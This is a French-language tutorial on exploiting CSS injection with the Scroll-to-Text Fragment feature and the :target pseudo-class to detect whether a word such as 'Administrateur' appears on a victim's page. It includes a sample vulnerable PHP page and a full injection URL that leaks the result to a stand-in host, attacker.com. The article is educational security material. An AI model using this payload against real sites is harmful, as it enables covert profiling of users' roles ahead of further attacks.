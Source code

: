 ```yaml
---
description: 16 Décembre 2022
---
```


# Les injections CSS - Scroll-to-Text Fragment

> Cette exploitation d'une injection CSS va permettre à l'attaquant de savoir si l'occurrence d'un mot est présente ou non sur la page ciblée. Cela peut être utile pour identifier, par exemple, si la victime est connectée en tant qu'administrateur ou non.

## Scroll-to-Text Fragment

Un attaquant peut s'appuyer sur la fonctionnalité de Scroll-to-Text Fragment afin d'exploiter une injection CSS dans l'objectif de connaitre la présence d'un mot ou d'une phrase dans la page Web de sa victime. Les scénarios d'utilisation sont très nombreux, mais il est possible de prendre le cas d'un attaquant souhaitant connaitre le rôle de la victime.

{% hint style="info" %}
La fonctionnalité de lien vers un fragment de texte (Scroll-to-Text Fragment) permet à un utilisateur de créer un lien vers une partie spécifique d'une page en prenant comme référence un texte fournit dans l'URL. Une fois la page chargée, le navigateur mettra le texte recherché en surbrillance et fera défiler l'écran jusqu'à sa position.



La fonctionnalité Scroll-to-Text Fragment n'étant pas un standard, elle n'est donc pas implémentée sur Firefox.
{% endhint %}

En admettant la page vulnérable suivante :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>CSS Injection</title>
    <style>
      h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
    </style>
  </head>
  <body>
    <h1>Injection CSS - utilisation de la fonctionnalité Scroll-to-Text Fragment</h1>
    <div>
      <p>Connecté en tant que <?php echo $role ?></p>
    </div>
  </body>
</html>
```
{% endcode %}

La variable PHP `$role` contient le rôle du visiteur authentifié. Elle peut contenir la valeur "Administrateur" ou "Utilisateur". L'attaquant souhaite tout d'abord déterminer si le visiteur de la page est bien l'administrateur du site afin, ensuite, d'effectuer une attaque plus poussée contre lui ; c'est ici que la fonctionnalité Scroll-to-Text Fragment va lui être utile.

{% hint style="info" %}
L'article original concernant cette exploitation est disponible ici : [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)
{% endhint %}

### Text Fragments

Un fragment de texte dans une URL se compose du signe `#` suivi de `:~:text=` et se termine par le texte ciblé (encodé en URL) :&#x20;

```
http://vulnerable.com/scroll-to-text.php#:~:text=texte-ciblé
```

En reprenant le code de l'exemple précédent, il est donc possible de mettre en surbrillance le mot ciblé comme ceci :&#x20;

```
http://vulnerable.com/scroll-to-text.php#:~:text=Administrateur
```

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Ou alors une phrase entière :&#x20;

<figure><img src="../../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>

Il est également possible de surligner tout un paragraphe en spécifiant le texte du début (`textStart`) et le texte de fin (`textEnd`) séparés par une virgule :&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

Ou encore d'ajouter des suffixes et des préfixes :&#x20;

```html
#:~:text=[prefix-,]textStart[,textEnd][,-suffix]
```

Une dernière possibilité pouvant être utile est de pouvoir effectuer une multi sélection grâce au caractère `&`. Par exemple :&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

### La pseudo-class :target&#x20;

L'injection CSS et l'utilisation de la pseudo-class `:target`, va permettre de prévenir l'attaquant dans le cas ou le texte recherché a bien été trouvé :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  :target::before {
    content:url(http://attacker.com/isAdmin);
  }
</style>
```
{% endcode %}

Soit l'injection suivante :&#x20;

{% code overflow="wrap" %}
```
http://vulnerable.com/scroll-to-text.php?color=black;}:target::before{content:url(http://attacker.com/isAdmin);#:~:text=Administrateur
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

L'attaque ne passera pas inaperçu pour la victime puisque le texte ciblé sera souligné et un défilement sera effectué si nécessaire :&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

### Limites de l'attaque

Outre le fait de pouvoir injecter du CSS, l'attaque possède quelques limites. Comme déjà évoqué, elle est assez voyante pour la victime par le surlignage et le défilement.

{% hint style="info" %}
A noter que si le serveur vulnérable présente l'entête HTTP `Document-Policy` avec la valeur `force-load-at-top` alors, le défilement n'aura pas lieu, ce qui peut être un avantage pour l'attaquant.
{% endhint %}

De plus, la fonctionnalité s'active seulement lors d'une navigation vers une page différente, c'est à dire que rafraichir la page ou ouvrir un lien vers la même page ne déclenchera pas l'attaque. Exit également l'iframing de la page vulnérable, la fonctionnalité ne se déclenchera pas dans ce contexte non plus.
